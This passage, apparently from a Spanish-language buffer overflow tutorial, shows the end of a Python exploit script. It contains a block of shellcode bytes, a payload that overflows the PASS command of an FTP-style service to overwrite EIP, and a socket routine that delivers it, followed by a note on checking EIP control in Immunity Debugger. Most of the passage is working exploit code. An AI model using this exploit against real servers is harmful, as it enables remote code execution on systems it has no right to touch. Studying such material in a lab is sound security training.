 ```python
b"\x7c\xf4\x83\x5b\xfe\x07\xd0\xbb\x3f\xc8\x25\xba\x78\x35"
b"\xc7\xee\xd1\x31\x7a\x1e\x55\x0f\x47\x95\x25\x81\xcf\x4a"
b"\xfd\xa0\xfe\xdd\x75\xfb\x20\xdc\x5a\x77\x69\xc6\xbf\xb2"
b"\x23\x7d\x0b\x48\xb2\x57\x45\xb1\x19\x96\x69\x40\x63\xdf"
b"\x4e\xbb\x16\x29\xad\x46\x21\xee\xcf\x9c\xa4\xf4\x68\x56"
b"\x1e\xd0\x89\xbb\xf9\x93\x86\x70\x8d\xfb\x8a\x87\x42\x70"
b"\xb6\x0c\x65\x56\x3e\x56\x42\x72\x1a\x0c\xeb\x23\xc6\xe3"
b"\x14\x33\xa9\x5c\xb1\x38\x44\x88\xc8\x63\x01\x7d\xe1\x9b"
b"\xd1\xe9\x72\xe8\xe3\xb6\x28\x66\x48\x3e\xf7\x71\xaf\x15"
b"\x4f\xed\x4e\x96\xb0\x24\x95\xc2\xe0\x5e\x3c\x6b\x6b\x9e"
b"\xc1\xbe\x3c\xce\x6d\x11\xfd\xbe\xcd\xc1\x95\xd4\xc1\x3e"
b"\x85\xd7\x0b\x57\x2c\x22\xdc\x98\x19\x2d\x3d\x71\x58\x2d"
b"\x3c\x3a\xd5\xcb\x54\x2c\xb0\x44\xc1\xd5\x99\x1e\x70\x19"
b"\x34\x5b\xb2\x91\xbb\x9c\x7d\x52\xb1\x8e\xea\x92\x8c\xec"
b"\xbd\xad\x3a\x98\x22\x3f\xa1\x58\x2c\x5c\x7e\x0f\x79\x92"
b"\x77\xc5\x97\x8d\x21\xfb\x65\x4b\x09\xbf\xb1\xa8\x94\x3e"
b"\x37\x94\xb2\x50\x81\x15\xff\x04\x5d\x40\xa9\xf2\x1b\x3a"
b"\x1b\xac\xf5\x91\xf5\x38\x83\xd9\xc5\x3e\x8c\x37\xb0\xde"
b"\x3d\xee\x85\xe1\xf2\x66\x02\x9a\xee\x16\xed\x71\xab\x37"
b"\x0c\x53\xc6\xdf\x89\x36\x6b\x82\x29\xed\xa8\xbb\xa9\x07"
b"\x51\x38\xb1\x62\x54\x04\x75\x9f\x24\x15\x10\x9f\x9b\x16"
b"\x31")

payload = b'PASS ' + before_eip + eip + shellcode

def bof(): 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((ip, port))

    banner = s.recv(1024)
    
    if(banner):
        s.send(b"USER dobliuw" + b'\r\n')
        response = s.recv(1024)
        print(response)
        s.send(payload + b'\r\n')
        s.close()


if __name__ == "__main__":
    bof()

```

Una vez que tengamos el espacio en memoria de donde se encontrará el OpCode, deberíamos verificar si esto es así, por lo que deberíamos agregar un breakpoint en el immunity debugger para verificar si en algún punto, en la ejecución del programa con nuestras cargas, el registro EIP vale la dirección de memoria ingresada. Si esto es así, el flujo de nuestro BOF va muy bien encaminado, solo faltaría un ultimo retoque. 
